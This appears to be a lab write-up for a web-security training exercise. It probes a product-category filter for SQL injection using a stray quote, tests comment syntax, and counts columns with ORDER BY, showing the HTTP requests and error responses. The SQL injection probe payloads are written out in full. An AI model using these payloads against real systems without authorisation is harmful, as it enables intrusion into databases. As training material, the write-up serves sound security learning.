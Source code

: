 #### Irregular request - with `'`

```http
GET /filter?category=Pets' HTTP/1.1
Host: acf01f921f3267cd803c0b19006e0075.web-security-academy.net
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
```

```http
HTTP/1.1 500 Internal Server Error
Connection: close
Content-Length: 21

Internal Server Error
```

The application returns an error, indicating the presence of the SQL injection vulnerability.

### Identify comment syntax

Identifying the correct comment syntax is crucial in being able to inject into the original SQL query without causing an error. We'll iterate through different SQL comments and determine which one is syntactically correct, indicated by a successful response from the web application.

| Comment | Success | 
| --- | --- |
| `--` | Y | 
|  `--%20` | Y |
| `#` | N |

The fact that a `#` comment failed and a `--` comment (no trailing whitespace) succeeded rules out the database version as MySQL.

We'll move forward with `--` as our comment indicator.

### Number of columns & data types of columns

To identify the number of columns in the resultant set from the original `SELECT` statement, we'll use the incremental `ORDER BY` method.

Sarting from 1, this method received an error when attempting to order by column index 3, indicating the presence of 2 columns.

```http
GET /filter?category=Pets'+ORDER+BY+3-- HTTP/1.1
Host: acf01f921f3267cd803c0b19006e0075.web-security-academy.net
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
```

```http
HTTP/1.1 500 Internal Server Error
Connection: close
Content-Length: 21

Internal Server Error
```
